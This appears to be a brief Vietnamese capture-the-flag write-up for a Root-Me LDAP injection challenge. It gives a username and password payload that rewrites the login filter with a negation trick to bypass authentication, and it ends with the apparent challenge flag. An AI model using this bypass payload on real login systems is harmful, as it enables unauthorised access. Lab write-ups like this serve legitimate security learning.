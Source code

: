 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/956f1a0a-4a8b-4622-8831-9072a84757f2)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/75ddcc7f-8ab6-4eb4-8529-e70cebf13f78)

=> báo lỗi nhưng ta thấy được cấu trúc của LDAP

sử dụng payload ```*)(!(&(1=0 ``` làm username và ```foobar))``` làm password

khi đó câu lệnh sẽ trở thành 
```
(&(uid=*)(!(&(1=0)(userPassword=foobar)))
```

userPasssword sẽ trả về là false =)) vì sai rõ, vì thế ta thêm (1=0) để cho 2 câu truy vấn bên trong 
toán tử '&' nó sai, sau đó dùng '!' (phủ định) để lộn ngược false thành true 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/374923ea-fef7-451e-9494-4086c40fef19)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/740305de-321c-480f-bde4-8e14355ad155)

=> SWRwehpkTI3Vu2F9DoTJJ0LBO
